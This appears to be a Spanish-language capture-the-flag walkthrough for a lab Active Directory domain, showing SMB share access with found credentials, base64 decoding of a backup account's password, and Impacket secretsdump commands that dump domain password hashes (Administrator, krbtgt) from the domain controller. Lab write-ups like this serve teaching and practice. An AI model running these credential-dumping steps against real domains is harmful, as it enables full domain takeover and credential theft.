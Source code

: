 


## PODEMOS IR A LA CARPETA DE KALI E IR A ESTA RUTA

smb://10.201.73.14/backup/

**Agregar el usuario y clave svc-admin%management2005  .**

se nos abre la ruta con el archivo   backup_credentials.txt

y su clave

**YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw**


El archivo backup_credentials.txt contiene una cadena codificada en base64:


┌──(kali㉿kali)-[~/Downloads/active]
└─$ base64 -d backupactive.txt

backup@spookysec.local:backup2517860      






# Elevando privilegios dentro del dominio
¡Sincronicemos!


##  Impacket llamada "secretsdump.py". 
- Esta nos permitirá recuperar todos los hashes de contraseña que ofrece esta cuenta de usuario (que está sincronizada con el controlador de dominio). Al aprovechar esto, tendremos control total sobre el dominio de AD.



- python3 examples/secretsdump.py spookysec.local/backup:backup2517860@$target

- secretsdump.py -just-dc backup@10.10.84.206

- impacket-secretsdump -just-dc backup@10.201.73.14   

- impacket-secretsdump -just-dc spookysec.local/backup:backup2517860@10.201.73.14



impacket-secretsdump -just-dc backup@10.201.73.14          
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::



